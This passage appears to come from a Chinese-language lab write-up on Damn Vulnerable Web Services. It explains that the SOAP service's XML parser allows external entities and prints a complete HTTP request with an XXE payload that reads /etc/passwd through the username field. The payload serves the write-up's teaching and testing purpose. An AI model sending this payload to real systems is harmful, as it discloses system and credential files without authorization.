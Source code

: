 [![](assets/1705886707-928fb1c6241668cc0497591a850e9819.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115712-fdcf0ed0-b747-1.png)  
SOAP 服务器用来解析该请求的 XML 库允许使用外部实体，因此我们可以利用它从 SOAP 服务中读取任意文件

```plain
POST /dvwsuserservice/ HTTP/1.1
Host: 192.168.204.160
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
SOAPAction: Username
Content-Type: text/xml;charset=UTF-8
Content-Length: 579

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&exploit;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1705886707-547d206bc7e9bae04224608976fc9354.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115730-08aea14e-b748-1.png)
